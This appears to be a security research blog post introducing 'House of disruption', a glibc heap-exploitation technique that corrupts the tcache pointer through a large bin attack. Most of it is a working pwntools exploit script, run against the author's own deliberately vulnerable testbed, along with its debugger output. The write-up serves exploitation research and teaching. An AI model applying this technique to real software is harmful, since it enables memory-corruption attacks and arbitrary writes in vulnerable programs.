 # House of disruption
In this article I will describe a new powerful heap house I crafted which is applicable from glibc versions `2.26` until `2.35` (latest at the moment of writing this article). It's a pretty simple House but quite powerful with what you can do with it!

The main idea behind house of disruption is: by performing a simple large bin attack (which until 2.35 is unpatched) against `tcache` pointer, we can fool glibc into thinking that `tcache` is somewhere else on the heap. By crafting a fake tcache inside the large bin which `tcache` pointer is pointing to after the large bin attack, we can easily make `malloc` to return arbitrary chunks.

The only requirements for the house of disruption is a libc leak which we need inorder to locate the `tcache` pointer in memory and the ability to perform a large bin attack. Quite minimalistic isn't?

# Dive into malloc internals
For the house of disruption actually we just need to understand how tcache returns free tcache chunks back to the program.
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```
And this is actually pretty interesting. When you ask from malloc/realloc/calloc/etc a chunk in the tcache range (from `0x0` to `0x400` bytes), `malloc` will try to see if there is an available free tcache chunk in the range of your requested chunk. If it finds one it will call `tcache_get` to fetch a the free chunk and it will return it back to the program that requested this chunk.

The most important thing you have to consider is how ptmalloc2 locates the tcache on the heap. And as you can see above it uses a global variable named `tcache`. This variable will be our target for our large bin attack later.
```c
static __thread tcache_perthread_struct *tcache = NULL;
```
`tcache` is a per thread global variable and hence it is stored in the thread local storage of each thread. But for our single threaded program you can see it as a simple global variable which is **writable**.

Because ptmalloc2 blindly trusts this `tcache` pointer, if you are able to modify him to point somewhere you can write a fake `tcache` you will be able eventually to make ptmalloc2 to return arbitrary chunks back to the program!

For our case the only place we can craft a fake tcache is on the heap and so we will perform a large bin attack to put a heap address into the `tcache` pointer.

# Proof of Concept
For a proof of concept I will use the same testbed I used for another House that I made. You can find it [here]. If you remove the theme it's actually a simple testbed. In that testbed you have the ability to allocate chunks with a max size of `0x1000` bytes and you can free them if you wish. The bug in my testbed is a heap overflow of `40` bytes.

# Exploit for House of disruption.
```python
from pwn import *

elf = context.binary = ELF('house_of_disruption_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    else:
        return process(elf.path)

free_positions = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_size(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_position():
    for i in range(8):
        if free_positions[i] == 0:
            free_positions[i] = 1
            return i
    return -1

def unlock_position(pos):
    free_positions[pos] = 0
    
def malloc(size, contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_size(size)).encode())
    io.sendlineafter(b'> ', contents)
    return lock_position()

def free(index):
    select_option(option = 2)
    io.sendlineafter(b': ', str(index).encode())
    unlock_position(index)
    
def largebin_offset(address):
    return address - 0x20

def largebin_attack(target, fake_tcache_contents):
    largebin_target = largebin_offset(target)
    
    chunk_A = malloc(size = 0x820, contents=fake_tcache_contents) # after our large bin attack our new tcache will be here.
    chunk_B = malloc(size=0x70, contents=b'useful chunk') # this will take a guard chunk role also.
    chunk_C = malloc(size = 0x830, contents=b'Overflow me I will give you arbitrary chunks of many sizes!')
    chunk_guard = malloc(size = 0x40, contents=b'guard chunk')
    
    # Initiate our large bin attack.
    free(chunk_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    sorter_chunk = malloc(size=0x840, contents=b'blah blah')
    free(chunk_A) # free the smallest large chunk.
    
    free(chunk_B) # we free this chunk inorder to overflow to chunk_C and hijack bk_nextsize pointer.
    
    chunk_B = malloc(size=0x70, contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(largebin_target))
    # because we are sending also a newline we have to discard some output. Newline issues -.-
    io.recvuntil(b'Sorry you are not allowed to leave, you are my slave.\n')
    
    sorter_chunk = malloc(size=0x840, contents=b'blah blah') # now tcache must point back to our chunk_A!

def house_of_disruption():
    tcache_ref = libc.address - 0x2908
    
    # I will choose default_overflow_region as my target, you can choose any targets you like. Try to get a shell if you can ;)
    '''
        2a6:1530│       0x7faddbc4a530 (program_invocation_short_name) —▸ 0x7fff07c5ee08 ◂— 'house_of_disruption_patched'
        2a7:1538│       0x7faddbc4a538 (program_invocation_name) —▸ 0x7fff07c5eded ◂— '/home/un1c0rn/house_of_disruption/house_of_disruption_patched'
        2a8:1540│       0x7faddbc4a540 (default_overflow_region) ◂— 0x0
        2a9:1548│       0x7faddbc4a548 (default_overflow_region+8) ◂— 0x1
        2aa:1550│       0x7faddbc4a550 (default_overflow_region+16) ◂— 0x2
    '''
    
    target = libc.sym.default_overflow_region  # any target we like but we need it to be aligned to avoid tcache_get unaligned tcache mitigation!
    contents = p64(0xdeadbeef) + p64(0xcafebabe) + p64(0xbadc0de)

    # After our large bin attack our small large bin which now is our tcache will look like this:
    '''
        0x55ed6a059290:	0x0000000000000000	0x0000000000000821
        0x55ed6a0592a0:	0x00007f9ce80d41d0	0x000055ed6a059b20
        0x55ed6a0592b0:	0x000055ed6a059b20	0x00007f9ce7ede6d8
        0x55ed6a0592c0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592d0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592e0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592f0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059300:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059310:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059320:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059330:	0x00000000deadbeef	0x00000000deadbeef
    '''
    
    # Our new tcache will start from 0x55ed6a059290.
    # So we can not control the first 6 qwords. (Except if we perform another heap overflow from an above crafted chunk or with a write after free). But it doesn't matter the top of the tcache is allocated for the counts.
    # Filling our small large bin with a special crafted fake tcache we can supply fake tcache bins and allocate whatever we want!
    
    '''
/* offset      |    size */  type = struct tcache_perthread_struct {
/* 0x0000      |  0x0080 */    uint16_t counts[64];
/* 0x0080      |  0x0200 */    tcache_entry *entries[64];

                            /* total size (bytes):  640 */
                            }
    '''
    
    fake_tcache_counts = p64(0)*4 + p64(0xffffffffffffffff)*10 # first 4 qwords are used for fd/bk/bk_nextsize/fd_nextsize and after our large bin attack whatever we place there will be overwritten
    fake_tcache_bins   = p64(target - 0x10)*0x80 # spray our target because I'm lazy to calculate simple stuff.
    
    fake_tcache = fake_tcache_counts + fake_tcache_bins
    
    largebin_attack(tcache_ref, fake_tcache)
    malloc(size = 0xe0, contents=p64(0x0)*2 + contents) # allocate our target and overwrite it with our contents :)
    
    success(f'See the contents of your target in the debugger ;)')
    success(f'Quick reminder your selected target was: 0x{target:02x}')
    
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_disruption()

io.interactive()
```
Result:
```python
$ python3 exploit.py GDB
[+] puts @ 0x7ffbf8091e80
[+] libc @ 0x7ffbf8018000
[+] See the contents of your target in the debugger ;)
[+] Quick reminder your selected target was: 0x7ffbf820b540
[*] Switching to interactive mode

Press 1 to add a new pwnie land
Press 2 to burn your pwnie land
> $  
pwndbg> tel 0x7ffbf820b540
00:0000│  0x7ffbf820b540 (default_overflow_region) ◂— 0xdeadbeef
01:0008│  0x7ffbf820b548 (default_overflow_region+8) ◂— 0xcafebabe
02:0010│  0x7ffbf820b550 (default_overflow_region+16) ◂— 0xbadc0de
03:0018│  0x7ffbf820b558 (default_overflow_region+24) —▸ 0x7ffbf821000a (__pthread_keys+10314) ◂— 0x0
04:0020│  0x7ffbf820b560 (default_overflow_region+32) ◂— 0x0
05:0028│  0x7ffbf820b568 (default_overflow_region+40) ◂— 0xffffffffffffffff

```
